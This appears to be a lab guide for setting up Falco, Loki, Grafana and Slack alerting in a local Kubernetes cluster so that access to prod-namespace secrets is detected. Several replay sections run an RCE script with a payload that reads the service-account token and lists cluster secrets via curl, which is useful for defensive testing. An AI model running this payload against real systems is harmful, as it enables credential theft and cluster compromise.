


# reat2shell: local breach

[Back](../README.md)

- [reat2shell: local breach](#reat2shell-local-breach)
  - [Architecture](#architecture)
  - [Steps](#steps)
  - [Install Falco](#install-falco)
    - [helm](#helm)
    - [Argo CD](#argo-cd)
  - [Custome falco](#custome-falco)
    - [Replay the breach → CRITICAL alert](#replay-the-breach--critical-alert)
  - [Install Loki + grafana](#install-loki--grafana)
    - [Grafana dashboard](#grafana-dashboard)
  - [Setup Slack](#setup-slack)

---

## Architecture

```txt
 syscalls ──▶ Falco (DaemonSet, modern_ebpf)
                 │ rule match (JSON event)
                 ▼
            Falcosidekick ──▶ Loki (push API)
                                 │
                 Grafana  ◀──────┘  (Loki datasource)
                    │ alert rule (LogQL: priority=Warning|Critical)
                    ▼
                 Slack  (contact point = Incoming Webhook)
```

## Steps

| #   | Step                                         | Milestone                               |
| --- | -------------------------------------------- | --------------------------------------- |
| 1   | Install Falco app with Falcosidekick         | falco running                           |
| 2   | Create custom Falco rules                    | behavior get log                        |
| 3   | Install Loki + grafana; associate with falco | show violation in grafana               |
| 4   | Setup alert to Slack                         | Slack shows cricital alert              |
| 5   | replay RCE                                   | slask alert on cluster secret operation |
| 6   | Document                                     | key commands get log                    |

Note:

- Only setup monitoring rule for cluster secret as the last resort
  - the trigger of the following cluster hardening

---

## Install Falco

### helm

```sh
# add repo
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update falcosecurity

# install falco + falcosidekick
helm install falco falcosecurity/falco \
    --namespace monitoring --create-namespace \
    --set driver.kind=modern_ebpf \
    --set tty=true \
    --set falcosidekick.enabled=true \
    --set falcosidekick.webui.enabled=false

# verify
kubectl -n monitoring get pods
# NAME                                   READY   STATUS    RESTARTS   AGE
# falco-falcosidekick-84b6cccd64-hdtbq   1/1     Running   0          3m7s
# falco-falcosidekick-84b6cccd64-qb7ft   1/1     Running   0          3m7s
# falco-fz447                            2/2     Running   0          3m7s
# falco-q86dm                            2/2     Running   0          3m7s
```

### Argo CD

- `argocd/apps/platform.yaml`
- `argocd/platform/falco.yaml`

```sh
kubectl get app falco -n argocd
# NAME    SYNC STATUS   HEALTH STATUS
# falco   Synced        Healthy

k get po -n monitoring -l app.kubernetes.io/instance=falco
# NAME                                   READY   STATUS    RESTARTS   AGE
# falco-dwffv                            2/2     Running   0          85s
# falco-falcosidekick-84b6cccd64-n9gpv   1/1     Running   0          15m
# falco-falcosidekick-84b6cccd64-vn99w   1/1     Running   0          15m
# falco-gpwmx                            2/2     Running   0          73s
```

---

## Custome falco

- falco rule monitorin the cluster secret access

```yaml
- rule: Cluster Secret Accessed via K8s API
  desc: A Secret in the prod namespace was read/listed through the K8s API.
  condition: >
    ka.verb in (get, list, watch)
    and ka.target.resource = secrets
    and ka.target.namespace = prod
  output: >
    Cluster secret accessed in prod ns
    (verb=%ka.verb user=%ka.user.name resource=%ka.target.resource
    ns=%ka.target.namespace name=%ka.target.name source=%ka.sourceips)
  priority: CRITICAL
  source: k8s_audit
  tags: [k8s, secrets, react2shell, cluster-jewel]
```

```sh
# sync via argocd, then verify the plugin + NodePort
kubectl -n argocd get app falco
# NAME    SYNC STATUS   HEALTH STATUS
# falco   Synced        Healthy

kubectl -n monitoring get svc falco-k8saudit-webhook
# NAME                     TYPE       CLUSTER-IP     EXTERNAL-IP   PORT(S)          AGE
# falco-k8saudit-webhook   NodePort   10.96.62.108   <none>        9765:30007/TCP   15m
```

### Replay the breach → CRITICAL alert

```sh
# access cluster secret
python scripts/rce.py http://localhost:8080 "APISERVER=https://kubernetes.default.svc;SA=/var/run/secrets/kubernetes.io/serviceaccount;TOKEN=\$(cat \$SA/token);curl -sS --cacert \$SA/ca.crt -H \"Authorization: Bearer \$TOKEN\" \$APISERVER/api/v1/namespaces/prod/secrets"

# Falco confirm
kubectl -n monitoring logs -f ds/falco -c falco | grep -i "Cluster secret"
# {"hostname":"react2shell-eks-control-plane","output":"00:14:25.354008000: Critical Cluster secret accessed in prod ns (verb=list user=system:serviceaccount:insecure:react2shell resource=secrets ns=prod name=<NA> uri=/api/v1/namespaces/prod/secrets source=<NA>)","output_fields":{"evt.time":1791332065354008000,"ka.sourceips":null,"ka.target.name":null,"ka.target.namespace":"prod","ka.target.resource":"secrets","ka.uri":"/api/v1/namespaces/prod/secrets","ka.user.name":"system:serviceaccount:insecure:react2shell","ka.verb":"list"},"priority":"Critical","rule":"Cluster Secret Accessed via K8s API","source":"k8s_audit","tags":["cluster-jewel","k8s","react2shell","secrets"],"time":"2026-10-07T00:14:25.354008000Z"}
# {"hostname":"react2shell-eks-control-plane","output":"00:14:45.890846000: Critical Cluster secret accessed in prod ns (verb=list user=system:serviceaccount:insecure:react2shell resource=secrets ns=prod name=<NA> uri=/api/v1/namespaces/prod/secrets source=<NA>)","output_fields":{"evt.time":1791332085890846000,"ka.sourceips":null,"ka.target.name":null,"ka.target.namespace":"prod","ka.target.resource":"secrets","ka.uri":"/api/v1/namespaces/prod/secrets","ka.user.name":"system:serviceaccount:insecure:react2shell","ka.verb":"list"},"priority":"Critical","rule":"Cluster Secret Accessed via K8s API","source":"k8s_audit","tags":["cluster-jewel","k8s","react2shell","secrets"],"time":"2026-10-07T00:14:45.890846000Z"}
```

---

## Install Loki + grafana

- `argocd/platform/loki.yaml` — Loki (SingleBinary + filesystem), lab-grade
- `argocd/platform/grafana.yaml` — Grafana + pre-wired Loki datasource
- Falcosidekick → Loki output added in `argocd/platform/falco.yaml`:

```yaml
falcosidekick:
  config:
    loki:
      hostport: http://loki.monitoring:3100
      minimumpriority: notice
```

```sh
# confirm
kubectl -n argocd get app loki grafana
# NAME      SYNC STATUS   HEALTH STATUS
# loki      Synced        Healthy
# grafana   Synced        Healthy

kubectl -n monitoring get pods | grep -E 'loki|grafana'
# grafana-858f74b497-ksjt4              1/1     Running   0          4m47s
# loki-0                                2/2     Running   0          4m48s

kubectl -n monitoring logs deploy/falco-falcosidekick | grep -i loki
# 2026/10/07 00:21:22 [ERROR] : Loki - Post "http://loki.monitoring:3100/loki/api/v1/push": dial tcp 10.96.242.149:3100: connect: connection refused
# 2026/10/07 00:21:22 [ERROR] : Loki - Post "http://loki.monitoring:3100/loki/api/v1/push": dial tcp 10.96.242.149:3100: connect: connection refused
# 2026/10/07 00:22:31 [INFO]  : Loki - POST OK (204)
# 2026/10/07 00:22:31 [INFO]  : Loki - POST OK (204)
```

### Grafana dashboard

```sh
# open grafana (admin / admin)
kubectl -n monitoring port-forward svc/grafana 3000:80
```

- browse http://localhost:3000 -> Explore -> Loki datasource
  - Query labels:
    - `{source="k8s_audit"}`
    - `{priority="Critical"}`
    - `{rule="Cluster Secret Accessed via K8s API"}`

  ```sql
  {priority="Critical", source="k8s_audit", rule="Cluster Secret Accessed via K8s API"} |= ``
  ```

- replay the breach (see above) and confirm the CRITICAL event shows in Grafana Explore.

```sh
python scripts/rce.py http://localhost:8080 "APISERVER=https://kubernetes.default.svc;SA=/var/run/secrets/kubernetes.io/serviceaccount;TOKEN=\$(cat \$SA/token);curl -sS --cacert \$SA/ca.crt -H \"Authorization: Bearer \$TOKEN\" \$APISERVER/api/v1/namespaces/prod/secrets"
```





---

## Setup Slack

- 1. get Slack Incoming Webhook
  - copy the URL: `https://hooks.slack.com/services/T.../B.../xxxx`

- 2. Store the webhook as a secret (NOT in git)

```sh
# Grafana reads ${SLACK_WEBHOOK_URL} from this secret via envFromSecret.
kubectl -n monitoring create secret generic grafana-slack --from-literal=SLACK_WEBHOOK_URL='https://hooks.slack.com/services/T.../B.../xxxx'
# secret/grafana-slack created
```

- 3. Grafana alerting (provisioned in `argocd/platform/grafana.yaml`)

```sh
# restart grafana to pick up the secret + alerting provisioning
kubectl -n argocd get app grafana        # Synced / Healthy
kubectl -n monitoring rollout restart deploy/grafana

# verify provisioning (Grafana UI -> Alerting)
#   Contact points -> "slack"  (Test -> message appears in Slack)
#   Alert rules    -> "Cluster Secret Accessed (React2Shell)"  state=Normal
```

- 4. Replay the breach → Slack alert

```sh
python scripts/rce.py http://localhost:8080 "APISERVER=https://kubernetes.default.svc;SA=/var/run/secrets/kubernetes.io/serviceaccount;TOKEN=\$(cat \$SA/token);curl -sS --cacert \$SA/ca.crt -H \"Authorization: Bearer \$TOKEN\" \$APISERVER/api/v1/namespaces/prod/secrets"

```
